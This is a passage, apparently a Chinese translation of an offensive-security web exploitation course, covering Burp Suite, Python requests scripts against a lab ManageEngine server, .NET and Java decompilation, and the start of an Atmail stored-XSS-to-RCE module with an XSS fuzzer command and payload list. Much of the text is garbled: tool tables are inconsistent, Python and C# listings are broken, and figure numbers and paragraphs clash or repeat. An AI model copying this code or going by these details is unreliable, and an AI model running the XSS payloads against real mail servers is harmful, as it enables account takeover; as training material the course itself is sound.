| 34 | atmail | `/index.php` | | 200 | text | html |
| 14 | atmail | `/main.js` | | 200 | text | js |
| 13 | atmail | `/check.js` | | 200 | script | js |
| 13 | atmail | `/onerror.js` | | 200 | script | js |
| 9 | atmail | `/style.js` | | 200 | script | js |
| 8 | atmail | `/query?id=query-1.2-custom...` | | 200 | script | js |
| 4 | atmail | `/query?id=query-1.2-min.js` | | 200 | script | js |


```javascript
function decode(string, quote_style) {
    if (quote_style === "") {
        var temp_str = "", entity = "";
    } else if (quote_style === "html") {
        var table = document.createElement('table');
        table.innerHTML = string;
        entity = table.firstChild;
    }
    temp_str = decodeURIComponent(string);
    return temp_str.replace(
```

查看图 22 中的 return 语句，我们看到某些字符经过了 URL 编码，因此更难解释。让我们突出该语句，右键点击并选择 `Send to Decoder`（发送到解码）。

# 高级 Web 攻击与利用


拦截历史 Websockets 选项

过滤器：隐藏范围外项目：图像和通用二进制内容

| # | Host | Method | URL | Params | Status | Length | Extension | Title |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 33 | http://url | GET | `/favicon.ico` | | 404 | html | Not Found |
| 34 | http://url | GET | `/favicon.ico` | | 408 | html | Not Found |
| 13 | http://url | GET | `/images/favicon.co` | | 6529 | text | |
| 14 | http://url | GET | `/rememberme.js` | | 1415 | text | |
| 12 | http://url | GET | `/script.js` | | 4451 | script | |


| 11 | http://url | GET | `/browsercheck.js` | | 200 | | |

| 10 | http://url | GET | `/api/v-1.2.custom...` | | 200 | | |

| 9 | http://url | GET | `/query/1-3.2.min.js` | | 200 | | |

请求原始头头 Hex

```javascript
function urlencode(str) {
    return encodeURIComponent(str).replace(/\-/g
```

图 23：Burp Suite 解到解码

现在如果我们使用 `Decoder` 标签，我们可以选择 `Decoder` 作为选项，并选择 URL 编码方案（图 24）。


```javascript
return encodeURIComponent(str).replace(/\-/g, "%2D").replace(/\+/g, "%2B").replace(/\%/g, "%25").replace(/\:/g, "%3A").replace(/\^/g, "%5E");
```



图 24：Burp Suite 解码选定的值


图 25：Burp Suite 成功解码了选定的值

结果是我们在原始数据下方看到第二个文本框，它已经过解码，现在变得更容易阅读和理解了（图 25）。

到目前为止，我们只演示了 BurpSuite 的一些基础但实用的功能。该工具包含许多更多功能，在研究复杂的现代 Web 应用程序时非常有帮助。我们强烈建议你进一步学习这些功能，因为它们可以促进并简化极高效的工作流。

### 1.1.5 练习

花些时间熟悉 BurpSuite 代理及其及其各种能力。

## 1.2 使用 Python 与 Web 监听器交互

本课程的重点是针对目标 Web 应用程序创建功能完整且复杂的利用程序，我们选择的语言是 Python。尽管如此，如果你已经精通另一种语言并倾向于用该语言开发课程练习，我们也非常欢迎。

在 Python 中，一个经常用于与 Web 应用程序交互的流行库是 `requests` 库。虽然有很多关于如何使用 `requests` 的优秀指南（包括官方文档），但我们将演示一种非常基础的方法来入门。

以下脚本将向实验室中的 ManageEngine10 Web 服务器发送 HTTP 请求，并输出相对响应的详情：

```python
01: import requests
02: from colorama Import Fore, Back, Style
03:
04: requests.packages.urllib3.b
05: disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
06: def format_text(title,item):
07: cr = '\r'
08: section_break = cr + " " + 20 + cr
09: item = str(item)
10: text = Style.BRIGHT + Fore.RED + title + Fore.RESET + section_break + item + section_break
11: return text
12:
13: r = requests.get('https://manageengine:8443/',verify=False)
14: print format_text('r.status_code is: ',r.status_code)
15: print format_text('r.headers is: ',r.headers)
16: print format_text('r.cookies is: ',r.cookies)
17: print format_text('r.text is: ',r.text)
```

列表 2 - 基础 `requests` 库示例

⁸ https://portswigger.net/burp/demonstration

⁹ http://docs.python-requests.org/en/master/

¹⁰ https://www.manageengine.com/

# 高级 Web 攻击与利用

在列表 2 的第 1-2 行中，我们导入了 `requests` 模块以及一个用于不同颜色输出的模块。第 4-5 行，当对使用不安全证书的网站发送请求时，我们禁用证书警告。这在目标应用程序使用自签名证书的场景中（如 AWAAE 实验室）非常有用。

第 6-11 行实现了一个以组织方式显示响应头和正文函数。在第 13 行，我们将变量 `r` 设置为对实验室中 ManageEngine Web 服务器进行 GET 请求的结果。注意在我们的请求中，我们将 `verify` 设置为 `False`。这防止了库验证 SSL/TLS 证书。最后第 14-17 行演示了如何访问 HTTP 服务器响应的几个组件。

假设文件名为 `manageengine_web_request.py`，运行它并检查 Web 服务器响应的详情：

```
kali@kali~$ python manageengine_web_request.py
r.status_code is:
**********************
200
**********************
******************
r.headers is:
'Content-Length': '261', 'Set-Cookie': 'JSESSIONID_APM_9090=808639988060D663A797DF8EA801F67; Path=/; Secure; HttpOnly;
'Accept-Ranges': 'bytes', 'Server': 'Apache-2/1', Last-Modified': 'Fri, 09 Sep 2016 14:46:08 GMT', 'ETag': 'W/"261-1474300800", 'Date': 'Fri, 14 Sep 2018 12:51:15 GMT', 'Content-Type': 'text/html'
**********************
r.cookies is:
**********************
<Cookie JSESSIONID_APM_9090=808639988060D663A797DF8EA801F67 for manageengine.local>
**********************
r.text is:
**********************
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
<!-- This comment is for Instant Gratification to work -->
<script>

window.open("/webclient/common/home.jsp", "_top");
```

列表 3 - 脚本生成的响应

太棒了！从列表中可以看出，请求成功了，并且可以访问 HTTP 响应的不同部分。与浏览器和 Web 应用程序之间的正常请求和响应一样，有时我们需要调试。`requests` 库带有代理支持。要使用它，只需要添加一个字典来指定 IP 地址、端口和协议，这将在我们的 `requests.get` 调用中使用。让我们看看如何做。

```python
01: import requests
02: from colorama import Fore, Back, Style
03:
04: requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
05:
06: proxies = {'http://127.0.0.1:8080': 'http://127.0.0.1:8080'}
07: def format_text(title,item):
08:     cr = '\n'
09:     section_break = cr + "*" * 20 + cr
10:     item = Style.Bright + Fore.RED + title + Fore.RESET + section_break + item
11:     section_break
12:     return text
13:
14: r = requests.get('https://manageengine:8443/',verify=False, proxies=proxies)
15: print format_text('r.status_code is:', ' ' + r.status_code)
16: print format_text('r.headers is:', ' ' + r.headers)
17: print format_text('r.cookies is:', ' ' + r.cookies)
18: print format_text('r.text is:', ' ' + r.text)
```

列表 4 - 使用 Python 支持

更新后的脚本将生成一个与 3 显示类似的响应，但这次我们可以在 BurpSuite 的 `History` 标签中找到我们的请求/响应。

过滤范围外项目；隐藏 CSS、图像和通用二进制内容

| # | Host | Method | URL | Params | Edited | Status | Length | MIME type |
|---|---|---|---|---|---|---|---|---|
| 14 | http://atmail | GET | `/images/favicon.ico` | | | 200 | 1415 | text |
| 12 | http://atmail | GET | `/remsemble.js` | | | 200 | 451 | script |
| 11 | http://atmail | GET | `/success.txt` | | | 200 | 9506 | script |
| 10 | http://atmail | GET | `/browsercheck.js` | | | 200 | 193026 | script |
| 9 | http://atmail | GET | `/js/query-ui-1.7.2.custom.m...` | | | 200 | 37613 | script |
| 8 | http://atmail | GET | `/js/query-ui-1.7.2-min.js` | | | 200 | 70 | script |
| 7 | http://atmail | GET | | | | 200 | 7883 | HTML |

图 26: BurSite history 仍仅显示指向 Atmail 服务器的请求

遗憾的是，运行脚本后，我们仍然只看到指向 Atmail 服务器的请求（图 26）。我们忘记将 ManageEngine 目标添加到我们的范围中了！正如我们之前看到的，这是一个很容易修复的问题，在此之前，我们需要重新启用之前禁用的范围外项目捕获。我们可以在 `Proxy > HTTP history` 标签中通过点击图所示的 `Re-enable` 按钮来完成。

范围外流量日志已禁用 重新启用

| # | Host | Method | URL | Params | Edited | Status | Length | MIME type | Extension | Title |
|---|---|---|---|---|---|---|---|---|---|---|
| 1 | http://getportalfirefox.com | GET | `/success.txt` | | | 200 | 379 | text | txt | Atm |
| 2 | http://atmail | GET | | | | 200 | 780 | HTML | | |
| 3 | http://atmail | GET | `/js/query-ui-1.7.2-min.js` | | | 304 | 238 | script | js |
| 4 | http://atmail | GET | `/js/query-ui-1.7.2.custom.m...` | | | 304 | 238 | script | js |
| 5 | http://atmail | GET | `/skiptp.js` | | | 304 | 238 | script | js |
| 6 | http://atmail | GET | `/browsercheck.js` | | | 304 | 238 | script | js |
| 7 | http://atmail | GET | `/stremsemble.js` | | | 304 | 237 | script | js |

图 27: 重新启用范围外流量

我们将重新运行 Python 脚本，回到 `Target > Site map`，右键点击 ManageEngine URL 并选择 `Add to scope`（图 28）。

# 高级网络攻击与利用

# Burp Suite 社区版 v1.7.33 - 临时项目

过滤器：隐藏未找到的项目；隐藏 CSS、通用二进制内容；http 4xx 响应：隐藏空主体

- http://atlas.com
- http://detectportal.firefox.com
- http://docs.jquery.com
- http://jquery.com
- https://manageengine:8443
- http://webbasedmail.com
- http://www.atlas.com
- http://www.w3.org

| 主机 | 方法 | URL | 参数 | 状态 |
| --- | --- | --- | --- | --- |
| https://manageengine:8 | GET | `/favicon.ico` | | 200 404 Not Found |
| https://manageengine:8 | GET | `/web/common/jsp/` | | |



最后，我们可以导航到历史记录，在这里我们捕获了 ManageEngine 的请求。

# Burp Suite 社区版 v1.7.33 - 临时项目

过滤器：隐藏范围外项目；隐藏 CSS、通用和二进制内容

| # | 主机 | 方法 | URL | 参数 | 编辑 | 状态 | 长度 | MIME 类型 | 扩展名 | 标题 |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 36 | https://manageengine:8443 | GET | `/favicon.ico` | | 200 | 398 | HTML | ico | 404 Not Found |
| 35 | http://atlas.com | GET | `/favicon.ico` | | 404 | 482 | HTML | ico | 404 Not Found |
| 34 | http://jquery.com | GET | `/jquery.js` | | 200 | 6529 | script | js | |
| 33 | http://jquery.com | GET | `/jsembername.js` | | 200 | 4451 | script | js | |
| 12 | http://docs.jquery.com | GET | `/jquery.js` | | 200 | 9506 | script | js | |
| 11 | http://docs.jquery.com | GET | `/jquery.js` | | 200 | 8193 | script | js | |
| 10 | http://docs.jquery.com | GET | `/jquery.js` | | 200 | 5763 | script | js | |
| 9 | http://jquery.com | GET | `/js/jquery-1.2.min.js` | | 200 | 7883 | HTML | html | Atmail.6.-long |

```
HTTP/1.1 200 OK
Server: Werk/3.5.1
Set-Cookie: JSESSIONID=ATM_5000-B97F8B8A69C37CF5668335013D82110; HttpOnly
Accept: */*
Cache-Control: no-cache
ETag: W/"16341744000000"
Last-Modified: Thu, 14 Sep 2018 14:08:06
Content-Type: text/html
Content-Length: 398
Date: Sun, 14 Sep 2018 13:11:08 GMT
Connection: close
```

```
<!DOCTYPE html PUBLIC "//W3C//HTML 4.01//EN">
<html
```


在此阶段，我们可以重复图 11 中的测试，以便在我们的历史记录中仅显示范围内的项目。

# 攻击性安全

虽然之前的示例在本质上相当简单，但它为我们将在后续模块中开发的概念性验证（PoC）脚本提供了一个起点。随着这些脚本复杂性的增加，我们建议你更加熟悉 Python 的 `requests` 库。

### 1.2.1 练习

重复本节中列出的步骤，并确保你可以拦截来自概念性验证脚本的 HTTP 请求。

## 1.3 源代码恢复

正如我们在模块开头提到的，从用编译语言编写的应用程序中恢复源代码的能力是极具价值的。在课程中，我们将关注 Java 和 .NET 源代码恢复，因为它们与我们以后探索的漏洞应用程序直接相关。

### 1.3.1 托管型 .NET 代码

在课程的后半部分，我们将处理一个存在漏洞的 `DotNetNuke` .NET 应用程序。这意味着我们需要反编译托管型 .NET 可执行文件。再次，有许多工具可以实现这一目标，其中一些工具可以与 `Visual Studio` 无缝集成。对于最常用的 .NET 反编译器来说，一个很棒的补充是它们也可以被轻松地作为调试器使用。

尽管如此，我们将使用免费的 `dnSpy` 反编译器器和调试器来实现此目的，因为它为我们提供了实现目标的所有功能。


在此时，我们可以重复图 11 中的测试，以便在我们的历史记录中仅显示范围内的项目。

## 高级Web攻击与利用





让我们选择其中一个函数并尝试找到它的交叉引用。我们将从选择 `Base64UrlDecode` 函数开始。我们对它点击右键，然后从上下文菜单中选择“分析”（Analyze）选项。

| 操作 | 快捷键 |
|---|---|
| 转到引用 | 双击 |
| 在新标签页中打开 | `Shift` + 双击 |
| 复制 MD Token | |
| 添加方法断点 | |
| 分析 | `Ctrl` + `Shift` + `R` |
| 搜索 MSDN | |
| 语法高亮 | |
| 匹配全词 | |
| 大写敏感搜索 | |
| 匹配任何搜索项 | |
| 反编译资源（如 XAML） | |
| 在 GAC 程序集中搜索 | |

图 35：分析函数

我们在分析器（Analyzer）窗口中看到了此操作的结果。具体来说，如果我们展开函数名，我们会看到两个选项：“被使用”（Used By）和“使用”（Uses）（图 36）。



图 36：为给定函数查找交叉引用

顾名思义，如果展开“Used By”节点，我们应该能看到目标 DLL 中调用我们示例函数的所有地方，这在分析源代码时极其有用。如果我们现在点击交叉引用，`dnSpy` 将带我们进入源代码中发出函数调用的地方（图 37）。

### 攻击性安全 (OFFENSIVE SECURITY)

#### 高级Web攻击与利用

`FacebookRequestController`

```csharp
string[] array = rawSignedRequest.Split(new char[]{
{
{
    string text = array[0];
    string text2 = array[1];
    if (string.IsNullOrEmpty(text) && !string.IsNullOrEmpty(text2))
{
        UTF8Encoding encoding = new UTF8Encoding();
        byte[] bytes = FacebookRequestController.SignHmac(utf8Encoding.getBytes(text2), utf8Encoding.getBytes(secretKey));
        byte[] result = FacebookRequestController.Base64FromDecode(Convert.ToBase64string(array));
    }
if (a == null)
{
    return true;
}
}
return false;
```

图 37：在源代码中显示交叉引用

### 修改程序集

最后，我们将简要提到 `dnSpy` 任意修改程序集的能力。当我们需要向日志文件添加调试信息，或者更改程序集属性以调试我们的目标应用程序时，这非常有用。

为了演示这项技术，我们将参考之前的自定义可执行文件并使用 `dnSpy` 对其进行编辑。让我们点击“程序”（Program）并编辑“类”（Class）（图 38）。



图 38：在 `dnSpy` 中编辑类

然后，我们将显示“Your answer was”的字符串改为“You said”（图 39）。

### 高级Web攻击与利用

#### 编辑类 - `Program` @02000002

```csharp
using System;
namespace dotnetapp
{
    // Token: @02000002 RID: 2
    internal class Program
    {
        // Token: 0x0000001 RID: 1 RVA: 0x00002050 File Offset: 0x00002550
        private static void Main(string[] args)
        {
            Console.WriteLine("What is your favorite Web Application Language?");
            string str = Console.ReadLine();
            Console.WriteLine("You said: " + str + "\r\n");
        }
    }
    // Token: 0x0000002 RID: 2 RVA: 0x00002085 File Offset: 0x00002085
    public Program()
    {
}
```

图 39：使用 `dnSpy` 修改源代码

最后，我们将点击“编译”（Compile），通过“文件 > 保存所有”来覆盖可执行文件的原始版本（图 40, 41）。



图 40：保存我们修改后的程序集

### 攻击性安全 (OFFENSIVE SECURITY)

#### 高级Web攻击与利用

```text
1 using System;
2
3 namespace dotnetapp
4
5 Save Module
6
7 Main Metadata Cor20 PE
8 Save File
10 Shared Method Bodies
11 Module Type Console
12
13 Filename C:\Users\Desktop\test.exe
14
15 Run NGEN.exe if this assembly is installed in GAC
```

图 41：替换我们原始的 `test.exe`

如果我们回到命令行提示符并重新运行 `test.exe`，我们看到第二个语句显示“You said.”（图 42）。

```text
Administrator: Command Prompt
Microsoft Windows [Version 10.0.19042]
(c) Microsoft Corporation. All rights reserved.
C:\Users\Desktop
C:\Users\Desktop\test.exe
What is your favorite Web Application Language? PHP
You said: PHP
```

图 42：运行编辑过的可执行文件

通过一个非常简单的示例，我们演示了如何借助反编译器恢复基于 .NET 的应用程序的源代码并找到交叉引用。我们还演示了如何修改和保存 .NET 程序集。即使此功能目前看起来并不特别有用，但在课程的后面，当我们必须更改属性以更好地调试目标应用程序时，它将派上用场。

## 3.2 反编译 Java 类

虽然有很多工具能够反编译 Java 字节码（成功程度不一），但在本课程中我们将使用 `JD-GUI`。基于 Java 的 Web 应用程序主要由编译后的类文件组成，压缩成单个存档或 `JAR` 文件。使用 `JD-GUI`，我们可以提取类文件并成功地将其反编译回 Java 源代码。我们将通过一个使用 `JD-GUI` 创建 `JAR` 文件然后将其反编译的快速示例。让我们在 `Kali` 上开始创建一个名为 `JAR` 的目录。在该目录下，我们将创建一个名为 `test.java` 的文件，包含以下内容：

```java
import java.util.*;
public class test {
    public static void main(String[] args){
        Scanner scanner = new Scanner(System.in);
        System.out.println("What is your favorite Application Language?");
        String answer = scanner.nextLine();
        System.out.println("Your answer is " + answer);
    }
}
```

列表 9：一个简单的 Java 应用程序

此 Java 应用程序询问用户最喜欢的语言，并将答案打印到控制台。在编译过程中，我们还将 Java 源代码和目标版本设置为 1.8，这是当前建议的版本。编译后，我们在目录下获得名为 `test.class` 的类文件。为了将类打包为 `jar` 文件，我们需要 `manifest` 文件。这通过创建 `META-INF` 目录并将我们的类添加到 `MANIFEST.MF` 来轻松完成：

```bash
kali@kali~$ mkdir META-INF
kali@kali~$ echo "Main-Class: test" > META-INF/MANIFEST.MF
```

列表 11：为 JAR 文件创建 manifest

<https://docs.oracle.com/java/deployment/jar>

### 高级Web攻击与利用


我们现在准备好创建 JAR 文件。我们将通过运行以下命令来实现：

```bash
kali@kali~$ jar cmvf META-INF/MANIFEST.MF test.class
added manifest
adding: test.class(in = 747) (out = 468) (deflated 37%)
```

列表 12：创建 JAR 文件

让我们测试我们的示例以确保它工作正常：

```bash
kali@kali~$ java -jar test.jar
What is your favorite Application Language? Java
Your answer was: Java
```

列表 13：测试 JAR 文件

太棒了！现在我们有了 JAR 文件，我们需要将其拷贝到安装了 `JD-GUI` 的机器。在我们的实验中，这是 `ManageEngine` 虚拟机。传输文件的简单方法是使用 `SMB` 服务器。在 `Kali` 上，可以使用 `Impacket` 脚本。在 `JAR` 目录下，我们将使用以下命令：

```bash
sudo impacket-smbserver test .
```

列表 14：使用 Impacket 模块创建网络共享

```text
kali@kali:/JAR
File Edit View Search Help
kali:/JAR$ sudo impacket-smbserver test .
[sudo] password for kali
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies
* Config file parsed
* Callback added for UUID 4B324FC8-1670-D1D3-1270-54A7BF6E1EE8 V:3.0
* Callback added for UUID 0BFF0998-A112-3610-9033-46C3F87E345A V:1.0
* Config file parsed
* Config file parsed
* Config file parsed
```

图 43：在 Kali Linux 上创建临时 SMB 服务器

我们的服务器运行时，我们需要连接到 ManageEngine 服务器。为了这样做，我们将使用 `xfreerdp` 命令：

```bash
xfreerdp +sec-rdp +sec-nla /d: /u:administrator /p:studentlab /size=1180x708 v:manageengine
```

列表 15：使用 xfreerdp 连接到 ManageEngine VM

请参考你的课程材料以确保你使用的是正确的凭据。一旦连接到 ManageEngine 服务器后，我们将使用 Windows 文件资源管理器并导航到我们的使用路径 `\your-kali-machine` 的 Kali SMB 服务器。我们将 `test.jar` 文件复制到 ManageEngine 虚拟机的桌面上。剩下的工作是使用 `JD-GUI`，通过快捷方式将 JAR 文件拖入窗口中。


在此阶段，我们应该能够通过左侧面板在 `JD-GUI` 中导航到反编译代码，如图 5 所示。

# 高级网络攻击与利用


与使用 `dnSpy` 进行交叉引用分析类似，`JD-GUI` 也允许我们搜索反编译类中的任意方法和变量。然而，该功能的用户界面远没有直观，在处理大型应用程序时可能会成为障碍。

图 4：导航反编译代码

# 高级网络攻击与利用

`AdventNetWebClient.jar` - Java 反编译器


图 46：在 JD-GUI 中搜索任意字符串

`JD-GUI` 的局限性，在后面的章节中我们将提供克服它们的方法。

### 1.3.3 练习

反编译并探索 .NET 和 Java 文件以熟悉 `dnSpy` 和 `JD-GUI` 的用户界面。在 ManageEngine 网上，你可以在 `C:\Program Files (x86)\ManageEngine\AppManager1\classes` 目录下找到大量的 JAR 文件；而在 DNN 网上，你可以在 `C:\netpub\wwwroot\dotnet` 目录下找到 .NET 模块。

### 1.3.4 源码分析

一旦获取了源码，工作流中的下一步——源码分析是最困难的。现代 Web 应用构建在第三方框架之上，这使得数据流难以追踪。开发者倾向和编码风格也会增加分析的复杂性。

出于这些原因，考虑所有可用工具以帮助我们在合理的时间内实现目标是非常重要的。虽然我们并不完全依赖自动化源码分析工具，但提到它们是有用的。具体来说，这些工具通常能够识别“显而易见”的漏洞类型，从而节省我们的时间。通常情况下，它们在给定应用中也会产生大量的误报结果，这些结果也能帮助我们识别代码中的死角，再次节省了我们的时间。

然而，我们认为手动审查是不可替代的，因为许多编码细节和复杂的代码路径很容易逃避自动化工具的检测。手动审查非常耗时，但通过此过程获得的知识会随着时间的推移而积累，有助于未来发现可能更复杂的漏洞。

考虑到这一点，在执行手动源码分析时应注意以下事项：

- 如果可能，始终启用数据库日志
- 在解释型代码中使用调试打印语句
- 尝试对目标编译应用进行实时调试（`dnSpy` 对于 .NET 应用相对容易；对于 Java 应用，在 `Eclipse IDE` 中通过更多努力也可以实现）
- 在检查未身份验证区域后，关注可能关注较少的区域（即应用程序的授权部分）
- 调查如何对用户输入进行清理。是使用信任的开源库，还是使用了自定义解决方案？

这只是需要考虑的项目的小列表，可以指数级地扩展。但对于本课程而言，我们已经到了一个很好的起点，并将开始研究各种应用程序及其包含的漏洞类型。

## 2 Atmail 邮件服务器设备：从 XSS 到 RCE

### 2.1 概述


在本模块中，我们将深入分析并利用 `Atmail` 中发现的存储跨站脚本（XSS）漏洞，该漏洞可用于访问已验证会话。利用 XSS 漏洞获取 `Atmail` Web 界面的管理员用户权限后，我们将利用操作全局配置设置的能力升级攻击，目标是降低 `Atmail` Web 应用的默认安全防护。这将允许我们上传任意文件，从而在目标系统上执行远程代码。

受影响的版本：6.4 及以下

## 2.2 入门

在开始此模块之前，确保从学生控制面板还原 `Atmail` 虚拟机。

`Atmail` Web 系统有两个不同的（但类似的）Web 界面：一个用于 Webmail，另一个用于邮件服务器管理。请参考学生控制面板获取这两个接口的凭据。

在后续示例中，`Atmail` 服务器的 IP 地址映射到主机名 `Atmail`。

## 2.3 漏洞发现

`Atmail` Web 系统有两个不同的（但类似的）Web 界面：一个用于 Webmail，另一个用于邮件服务器管理。请参考学生控制面板获取这两个接口的凭据。

在后续示例中，`Atmail` 服务器的 IP 地址映射到主机名 `Atmail`。

## 2.4 高级网络攻击与利用

虽然有公开的 XSS 模糊工具，但在分析 `Atmail` 期间，我们可以自定义构建的 Web 模糊工具，命名为 `xss-webmail-fuzzer.py`。需要注意的是，`Atmail` SMTP 服务器在中继消息时不需要身份验证，因此我们可以在模糊测试中使用它。

# 高级 Web 攻击与利用

本地 XML 文件

```
-r REPLAY, --payload=REPLAY
重放 payload 编号
-P 用自定义 payload 替换默认告警
-j INJECTION, --injection-type=INJECTION
可用的注入方法：basic_main, basic_extra,
point,onebody_main,onebody_extra
-F PINTOINT_FIELD, --injection-field=PINTOINT_FIELD
此选项必须与 -j 配合使用，以指定要定位的电子邮件标头。查看源码中的
EMAIL_HEADERS 全局变量以获取可能的字段列表。
-I 在交互模式下运行单体注入
-L 加载 XML 文件并显示可用的 XSS payload
```

**列表 16 - XSS 模糊器**

向 `xss-webmail-fuzzer.py` 传递 `-L` 选项将显示用于跨站脚本（XSS）攻击的可用 payload 列表。

```
kali@kali:~$ /xss-webmail-fuzzer.py -L

############################################################

###### XSS WebMail Fuzzer - Offensive Security 2018 ######

############################################################

[+] 正在从 hacker.org 获取最新的 XSS 

[$ Payload 0 : XSS Locator

[$ Payload 1 : XSS Quick Test

[$ Payload 2 : SCRIPT w/Alert())

[$ Payload 3 : SCRIPT w/Source File

[$ Payload 4 : SCRIPT w/Char Code

[$ Payload 5 : BASE

[$ Payload 6 : BGSOUND

[$ Payload 7 : BODY background-image

[$ Payload 8 : BODYLOAD

[$ Payload 9 : DIV background-image 1

[$ Payload 10 : DIV background-image 2

[$ Payload 11 : DIV expression

[$ Payload 12 : FRAME

[$ Payload 13 : IFRAME

...
```

**列表 17 - 列出所有可用的 XSS payload**

为了尽量减少我们发送的邮件数量并希望尽快发现 XSS 漏洞，我们可以从向常见的电子邮件字段注入单个 payload（使用 `-r` 选项）开始。在下面的示例中，我们选择了 payload 编号 2（SCRIPT w/Alert()）。请注意，在重放此攻击时，您需要相应地调整邮件服务器 IP 地址。

```
kali@kali:~$ /xss-webmail-fuzzer.py -t admin@offsec.local -f attacker@offsec.local -s
atmail -c plain -j onebody_main -r 2

############################################################
###### XSS WebMail Fuzzer - Offensive Security 2018 ######
############################################################

[+] 正在获取带有 Alert()-注入 From 的最新 XSS 表格

[+] 正在重放 payload 2

[+] 正在发送邮件 Payload-2-SCRIPT w/Alert()-injected-in-From

[+] 正在发送邮件 Payload-2-SCRIPT w/Alert()-injected-in-To

[+] 正在发送邮件 Payload-2-SCRIPT w/Alert()-injected-in-Date

[+] 正在发送邮件 Payload-2-SCRIPT w/Alert()-injected-in-Subject

[+] 正在发送邮件 Payload-2-SCRIPT w/Alert()-injected-in-Body
```

**列表 18 - 向每个邮件字段重放 payload 编号 2**

一旦模糊器完成所有可用 payload 的发送，我们就可以登录到 webmail 界面，查看我们的触发器是否弹出了提示消息，表明我们发现了 XSS 漏洞。在我们的案例中，图 47 显示我们确实成功了。

